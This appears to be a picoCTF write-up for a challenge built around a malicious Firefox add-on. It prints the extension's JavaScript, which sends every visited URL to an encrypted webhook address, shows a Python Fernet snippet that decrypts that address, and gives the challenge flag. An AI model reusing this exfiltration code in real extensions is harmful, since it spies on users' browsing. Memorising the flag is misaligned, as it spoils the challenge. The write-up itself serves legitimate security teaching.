



#### Hints

1. What kind of file is one ending in `.xpi`?
2. Which modern Python scheme uses url-safe Base64 32-byte keys?


`7z x addon.xpi`




```js
// Secret key must be 32 url-safe base64-encoded bytes!
// TODO I must find a solution to remove the key from here, for now I'll leave it there because I need it to encrypt the webhook

function logOnCompleted(details) {
    console.log(`Information to exfiltrate: ${details.url}`);
    const key="cGljb0NURnt5b3UncmUgb24gdGhlIHJpZ2h0IHRyYX0="
    const webhookUrl='gAAAAABmfRjwFKUB-X3GBBqaN1tZYcPg5oLJVJ5XQHFogEgcRSxSis1e4qwicAKohmjqaD-QG8DIN5ie3uijCVAe3xiYmoEHlxATWUP3DC97R00Cgkw4f3HZKsP5xHewOqVPH8ap9FbE'
    const payload = {
        content: `${details.url}`
    };
    fetch(webhookUrl, {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify(payload)
    })
    .then(response => {
        if (response.status != 204) {
            throw `Unable to complete the extraction!`;
        }
        return response;
    });
}

browser.webNavigation.onCompleted.addListener(logOnCompleted);
```

```python
from cryptography.fernet import Fernet

key = b"cGljb0NURnt5b3UncmUgb24gdGhlIHJpZ2h0IHRyYX0="
cipher = Fernet(key)

ciphertext = b"gAAAAABmfRjwFKUB-X3GBBqaN1tZYcPg5oLJVJ5XQHFogEgcRSxSis1e4qwicAKohmjqaD-QG8DIN5ie3uijCVAe3xiYmoEHlxATWUP3DC97R00Cgkw4f3HZKsP5xHewOqVPH8ap9FbE"

print(cipher.decrypt(ciphertext).decode())
```

```flag
picoCTF{Us3_4dd/0ns_v3ry_c4r3fully1}
```

---
